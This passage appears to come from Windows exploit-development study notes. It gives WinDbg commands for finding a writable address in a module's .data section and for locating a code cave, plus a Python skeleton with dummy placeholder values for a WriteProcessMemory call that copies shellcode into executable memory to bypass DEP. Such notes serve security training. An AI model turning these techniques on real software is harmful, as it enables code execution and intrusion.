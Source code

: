 ###### Finding `dword `for `lpflOldProtectPermalink`

```bash
# Get the .data section info first
windbg> !dh module -a

e.x: results:
SECTION HEADER #3
   .data name
    118C virtual size
   13000 virtual address
   
# Do the following calculation
windbg> module+virtual address+virtual size+4

# Check the result address
windbg> !address result # Can keep adding 4 until you find the right one
```

##### `WriteProcessMemory`

```python3
wpm = pack("<L", 0x69696969) # dummy WriteProcessMemory Address
wpm += pack("<L", 0x6A6A6A6A) # Return Address after WriteProcessMemory
wpm += pack("<L", 0x6B6B6B6B) # dummy hProcess
wpm += pack("<L", 0x6C6C6C6C) # dummy lpBaseAddress
wpm += pack("<L", 0x6D6D6D6D) # dummy lpBuffer
wpm += pack("<L", 0x6E6E6E6E) # dummy nSize
wpm += pack("<L", 0x6F6F6F6F) # dummy lpNumberOfBytesWritten
```

>   This allows you to copy your shellcode to another (executable) location, so you can jump to it and execute the shellcode. The target location must be writable and executable.

###### Finding code cave for shellcode

```bash
# Locate the code section first
windbg> dd module+3c l1 

# Take the first dword and add it to the module with 2c
windbg> dd module+dword+2c l1 

# Add dword value to the module
windbg> ? module+dword 

# Check the address + its range & search for the code cave
windbg> !address result_address

# Search for the code cave
windbg> s -[1]b start end 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

# Check the address size of the code cave
windbg> !address code_cave
```
